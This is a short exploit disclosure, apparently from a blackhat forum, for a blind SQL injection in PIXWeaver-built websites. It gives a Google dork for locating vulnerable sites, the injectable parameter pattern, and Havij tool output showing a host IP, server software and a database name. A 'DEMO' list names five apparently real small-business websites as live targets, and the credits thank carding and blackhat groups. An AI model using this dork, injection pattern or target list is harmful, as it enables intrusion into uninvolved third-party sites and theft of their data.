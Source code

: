 #Website by PIXWeaver Blind SQL Injection Disclosure


### Exploit Title        : Website by PIXWeaver Blind SQL Injection Disclosure
### Google Dork          : inurl:/inform.php?cat=
### Date                 : 26/08/2014
### Exploit Author       : Barrabravaz
### Vendor Homepage      : http://www.pixweaver.com/
### Version              : -
### Tested on            : Windows, Linux

## Author will be not responsible for any damage
### Issue: 
#### Blind SQL Injection Disclosure Vulnerability
### Risk level: High

### Proof Of Concept:
`http://127.0.0.1/inform.php?cat=%inject_here%&pv=45`
* ( take Havij for example )
* Host IP: 207.112.70.25
* Web Server: Apache/2.2.27
* Powered-by: PHP/5.4.16
* Keyword Found: Last
* Injection type is String (')
* DB Server: MySQL >=5
* Trying another method using keyword for finding columns count
* Findig columns count for MySQL failed!
* Testing for MySQL error based injection method
* MySQL error based injection method cant be used!
* Trying blind method
* Finding current data base
* Length of 'Current DB' is 7
* Current DB: test_db

## DEMO
`http://toybuildingzone.com/inform.php?cat=%inject_here%&pv=45`
`http://www.sportsystemscorp.com/inform.php?cat=%inject_here%`
`http://www.cantow.ca/inform.php?cat=%inject_here%&nv=188`
`http://www.agl.ca/inform.php?cat=%inject_here%&nv=23`
`http://www.movemyhottub.ca/inform.php?cat=%inject_here%&nv=150`

## Thanks To
* Allah SWT
* Cyptn my beloved
* $$Hunter
* IDC
* Jim Geovedi
* Yogyakarta Blackhat
* Yogyacarderlink
* And you...

* Discovered By Barrabravaz
* barrabravaz@outlook.com 
* jasasekuritionline[dot]com
* https://fb.me/akubocahmuyank

[Original Article](http://www.surabayablackhat.org/forum/thread-3112.html)